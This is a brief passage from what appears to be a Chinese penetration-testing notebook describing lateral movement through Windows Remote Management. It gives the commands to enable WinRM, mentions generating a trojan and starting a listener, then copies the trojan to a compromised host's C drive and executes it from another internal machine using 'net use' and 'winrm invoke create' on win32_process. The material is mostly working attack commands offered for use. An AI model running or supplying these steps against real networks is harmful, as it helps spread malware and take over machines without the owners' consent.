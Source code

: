 	>winrm quickconfig –q启动winrm
	或PS>Enable-PSRemoting -Force
	生成木马并启动监听
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/446.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/447.png)

	放入已获得权限的机器C盘中
	内网另外机器中执行
	>net use \\192.168.0.115\c$
	>winrm invoke create wmicimv2/win32_process @{commandline="\\192.168.0.115\c\index.exe"}
